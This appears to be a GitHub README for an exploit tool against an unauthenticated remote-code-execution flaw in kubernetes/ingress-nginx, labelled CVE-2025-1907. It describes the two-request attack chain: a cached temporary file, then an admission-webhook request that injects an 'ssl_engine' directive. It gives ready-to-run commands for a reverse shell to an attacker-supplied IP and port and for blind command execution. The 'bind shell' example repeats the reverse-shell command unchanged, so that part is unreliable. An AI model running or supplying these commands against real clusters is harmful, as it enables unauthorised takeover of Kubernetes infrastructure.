 # Ingress Nightmare CVE-2025-1907

## Description

This vulnerability allows remote attackers to execute arbitrary 
code on affected installations of kubernetes/ingress-nginx.
Authentication is not required to exploit this vulnerability.
The specific flaw exists within the handling of HTTP requests.

It is triggered by sending two request. One is a long buffered 
request to the NGINX server in same pod, then nginx will cache
it as a temporary file. The second request is a request to the
admission validating webhook server, which will trigger the 
admission webhook to write a temporary nginx config which contains
the `ssl_engine badso_location;` directive. Then the admission 
webhook will run `nginx -t` to check the config, which will 
triggered remote code execution in the context of the NGINX server.

## Exploitation

```bash
# reverse shell 
./ingressnightmare -m r -r ${ur_ip} -p ${port} -i ${INGRESS} -u ${UPLOADER} 

# bind shell # maybe lost?
./ingressnightmare -m r -r ${ur_ip} -p ${port} -i ${INGRESS} -u ${UPLOADER} 

# blind command execution
./ingressnightmare -m c  -c 'date >> /tmp/pwn; echo eson pwn >> /tmp/pwn' -i ${INGRESS} -u ${UPLOADER} 
```




